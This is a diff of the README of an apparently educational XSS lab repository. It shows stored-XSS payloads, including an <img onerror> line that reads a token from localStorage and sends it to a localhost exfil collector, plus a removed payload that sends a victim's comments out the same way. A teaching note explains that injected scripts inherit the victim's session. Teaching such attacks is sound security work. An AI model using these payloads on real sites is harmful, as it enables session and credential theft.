

Before and after one commit to nayabnoorsmn/xss-lab, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -250,13 +267,10 @@ The payload runs a script that calls the victim app's API as that victim and sen
 
-Example payload — exfiltrate the victim's view of all comments:
+```
+<img src=x onerror="fetch('http://localhost:4000/exfil?d='+encodeURIComponent(localStorage.getItem('token')||'none'))">
+```
+**Teaching point:** Because the script runs on the app's origin, it inherits the victim's authenticated session. Anything the victim could do on the page, the attacker's script can do — including reading private data and making state-changing requests (CSRF-style actions with stolen credentials).
 
-html
-<img src=x onerror="fetch('/api/comments').then(r=>r.text()).then(t=>fetch('http://localhost:4000/exfil?d='+encodeURIComponent(t)))">
-Example payload — exfiltrate localStorage (if the app stored a token there):
-
-html
-<img src=x onerror="fetch('http://localhost:4000/exfil?d='+encodeURIComponent(localStorage.getItem('token')||'none'))">
-Teaching point: Because the script runs on the app's origin, it inherits the victim's authenticated session. Anything the victim could do on the page, the attacker's script can do — including reading private data and making state-changing requests (CSRF-style actions with stolen credentials).
+---
 
 🔁 Why Reload Triggers the Payload
 A common misconception is that the browser "re-executes" the stored script. In reality, on every page load the script is re-injected into a fresh document:
````
Also changed, not shown: other parts of README.md (+43 -26 lines).
